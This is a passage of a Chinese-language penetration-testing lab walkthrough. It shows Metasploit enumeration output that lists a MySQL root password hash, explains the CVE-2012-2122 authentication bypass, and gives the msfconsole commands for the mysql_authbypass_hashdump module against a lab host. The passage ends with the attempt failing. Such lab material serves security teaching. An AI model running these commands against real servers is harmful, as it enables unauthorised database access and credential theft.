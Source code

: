 <pre><code>[*] Running MySQL Enumerator...
[*] Enumerating Parameters
[*]  MySQL Version: 5.5.40  //数据库类型及数据库版本
[*]  Compiled for the following OS: Win32  //目标机操作系统类型
[*]  Architecture: x86  //目标机乃是32位操作系统
[*]  Server Hostname: cde9  //目标机网络名
[*]  Data Directory: C:Program FilesphpStudyMySQLdata  //数据库存放目录
[*]  List of Accounts with Password Hashes:
[*]   User: root Host: localhost Password Hash: *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
//此为root账户密码的hash
</code></pre><h4 id="-3-mysql-">步骤3： Mysql认证漏洞利用</h4>
<pre><code>use auxiliary/scanner/mysql/mysql_authbypass_hashdump
</code></pre><p>这个模块利用的是CVE-2012-2122，</p>
<p>mysql任意用户密码概率登陆漏洞，按照公告说法大约256次就能够蒙对一次、<code>All MariaDB and MySQL versions up to 5.1.61, 5.2.11, 5.3.5, 5.5.22 are vulnerable.</code></p>
<blockquote>
<p><strong>CVE ID: CVE-2012-2122</strong>
MariaDB是为MySQL提供偶然替代功能的数据库服务器。MySQL是开源数据库。</p>
<p>MariaDB 5.1.62, 5.2.12、5.3.6、5.5.23之前版本和MySQL 5.1.63、5.5.24、5.6.6之前版本在用户验证的处理上存在安全漏洞，可能导致攻击者无需知道正确口令就能登录到MySQL服务器。</p>
<p>用户连接到MariaDB/MySQL后，应用会计算和比较令牌值，由于错误的转换，即使memcmp()返回非零值，也可能出现错误的比较，造成MySQL/MariaDB误认为密码是正确的，因为协议使用的是随机字符串，该Bug发生的几率为1/256。MySQL的版本是否受影响取决于程序的编译方式，很多版本（包括官方提供的二进制文件）并不受此漏洞的影响。</p>
<p>也就是说只要知道用户名，不断尝试就能够直接登入SQL数据库。按照公告说法大约256次就能够蒙对一次。</p>
</blockquote>
<p>参照下图配置模块参数：</p>
<pre><code>use auxiliary/scanner/mysql/mysql_authbypass_hashdump

set RHOSTS www.test.ichunqiu

exploit
</code></pre><p><img src="picture/img (49).png" alt="Alt text"></p>
<p>查看结果，漏洞并没有利用成功：</p>